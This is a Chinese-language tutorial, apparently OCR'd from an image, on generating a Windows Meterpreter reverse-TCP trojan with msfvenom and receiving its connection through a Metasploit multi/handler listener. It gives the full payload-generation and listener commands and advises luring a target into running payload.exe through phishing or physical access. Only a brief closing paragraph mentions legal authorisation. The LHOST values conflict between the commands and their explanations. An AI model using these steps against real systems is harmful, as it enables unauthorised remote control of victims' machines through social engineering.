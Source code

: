 利用Msfvenom生成一个木马（即恶意Payload），通常包括选择适当的Payload类型、配置相关选项、生成Payload并将其部署到目标系统。以下是使用Msfvenom生成一个Windows平台上的反向TCP连接木马的详细步骤。

### 步骤1：选择Payload类型

首先，选择适当的Payload类型。这里我们选择一个Windows平台上的Meterpreter反向TCP Payload。

### 步骤2：配置选项

配置Payload的选项，包括本地主机（LHOST）和本地端口（LPORT）。LHOST是攻击者的IP地址，LPORT是攻击者用于监听的端口。

### 步骤3：生成Payload

使用Msfvenom生成Payload，并将其保存为可执行文件。

### 示例：生成一个Windows反向TCP木马

1. **启动终端并使用Msfvenom生成Payload**：

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe -o payload.exe
   ```

   - `-p`：指定Payload类型，这里是`windows/meterpreter/reverse_tcp`。
   - `LHOST`：设置为攻击者的IP地址，例如`192.168.1.1`。
   - `LPORT`：设置为攻击者用于监听的端口，例如`4444`。
   - `-f`：指定输出格式，这里是`exe`（Windows可执行文件）。
   - `-o`：指定输出文件的名称，这里是`payload.exe`。

### 步骤4：配置Metasploit监听

1. **启动msfconsole**：

   ```bash
   msfconsole
   ```

2. **配置监听器**：

   在msfconsole中配置一个监听器来接收目标系统的反向连接。

   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST 127.0.0.1
   set LPORT 4444
   exploit
   ```

   - `use exploit/multi/handler`：选择通用的Payload处理程序。
   - `set payload windows/meterpreter/reverse_tcp`：设置Payload类型，与生成的Payload保持一致。
   - `set LHOST 192.168.1.1`：设置攻击者的IP地址。
   - `set LPORT 4444`：设置攻击者监听的端口。
   - `exploit`：启动监听器。

### 步骤5：部署Payload

将生成的`payload.exe`文件传送到目标系统，并诱使目标用户执行它。这可以通过社会工程学方法（如钓鱼邮件）或物理访问等方式实现。

### 步骤6：接收反向连接

当目标用户执行`payload.exe`后，攻击者的msfconsole会接收到一个反向连接，显示Meterpreter会话提示符，表示成功控制目标系统。

### 安全和合法性注意事项

使用Msfvenom生成木马进行渗透测试和安全研究必须在合法授权的情况下进行。未经授权的入侵行为是违法的，并会带来严重的法律后果。确保在进行任何渗透测试之前，获得明确的书面授权，并遵守相关的法律法规和道德规范。

通过以上步骤，您可以利用Msfvenom生成一个木马，并使用Metasploit接收和控制目标系统的反向连接。这是渗透测试中的一个常见方法，用于验证和测试系统的安全性。